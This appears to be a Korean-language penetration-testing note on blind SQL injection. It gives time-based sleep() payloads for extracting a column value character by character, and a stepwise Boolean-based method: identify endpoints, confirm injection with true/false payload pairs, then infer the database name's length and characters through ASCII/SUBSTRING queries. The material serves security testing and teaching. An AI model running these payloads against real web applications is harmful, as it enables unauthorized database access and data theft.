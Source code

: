 - 문자 추론
```bash
# 첫번째 문자 추론
5 AND if(SUBSTRING(컬럼명,1,1)='a', sleep(10), false)--+  (결과:거짓)
5 AND if(SUBSTRING(컬럼명,1,1)='b', sleep(10), false)--+  (결과:참)  <--- 첫번째 문자 'b'

#  두번째 문자 추론
5 AND if(SUBSTRING(컬럼명,2,1)='s', sleep(10), false)--+  (결과:거짓)
5 AND if(SUBSTRING(컬럼명,2,1)='t', sleep(10), false)--+  (결과:거짓)
5 AND if(SUBSTRING(컬럼명,2,1)='u', sleep(10), false)--+  (결과:참)  <--- 두번째 문자 'u'

# 세번째 문자 추론
5 AND if(SUBSTRING(컬럼명,3,1)='f', sleep(10), false)--+  (결과:거짓)
5 AND if(SUBSTRING(컬럼명,3,1)='g', sleep(10), false)--+  (결과:참)  <--- 세번째 문자 'g'
```

# Boolean 기반 Blidn SQL Injection 테스트 방법
1. 데이터베이스와 통신하는 엔드포인트 식별
대상 웹 애플리케이션의 모든 기능을 사용해보고 데이터베이스와 통신하는 것으로 의심되는 모든 엔드포인트와 매개변수를 찾아 수집한다
만일 웹 애플리케이션 내에 다양한 사용자 권한이나 역할이 존재하고 서비스가 차등적으로 제공되나면 각 권한과 역할에 대한 모든 조합별로 사용자 계정을 생성해 웹 애플리케이션을 사용
공격 벡터느 GET 매개변수, POST body 매개변수, Cookie 등의 표준 요청 헤더나 커스텀 요청 헤더가 될 수 있음

2. 잠재적 취약 여부 검증
1.에서 수집한 진입점과 매개변수가 SQL Injection에 잠재적으로 취약한지 검사할 차례이다. **잠재적으로 취약하다는 의미는 사용자의 입력값이 SQL 쿼리로 해석되어 백엔드의 데이터베이스와 통신한다는 것을 의미**

SQL 쿼리를 참 또는 거짓으로 만들기 위해 다음과 같은 쌍의 입력값을 번갈아 사용해 제출한다 주석 문자(--) 뒤에 공백문자(+)가 있음을 유의한다.
```bash
# 문자형
1234' AND 1=1--+          (결과:참)
1234' AND 1=0--+          (결과:거짓)

1234' AND 'a'='a'--+      (결과:참)
1234' AND 'a'='b'--+      (결과:거짓)

# 숫자형 (홑따옴표 제거)
1234 AND 1=1--+           (결과:참)
1234 AND 1=0--+           (결과:거짓)
```

3. 데이터베이스 구조 파악
### 데이터베이스명
- 길이 결정
```bash
AND LENGTH(database())=1--+          (결과:거짓)     
AND LENGTH(database())=2--+          (결과:거짓)     
AND LENGTH(database())=N--+          (결과:참)      <--- 데이터베이스명의 길이는 N임.
```
- 각 문자 식별 : SQL 쿼리의 결과가 참이 나올때까지 아스키코드값을 대입하여 비교한다.
```bash
AND ASCII(SUBSTRING(database(),1,1))={여기에 모든 ASCII코드값(DEC) 대입}--+
AND ASCII(SUBSTRING(database(),2,1))={여기에 모든 ASCII코드값(DEC) 대입}--+ 
AND ASCII(SUBSTRING(database(),N,1))={여기에 모든 ASCII코드값(DEC) 대입}--+ 
```
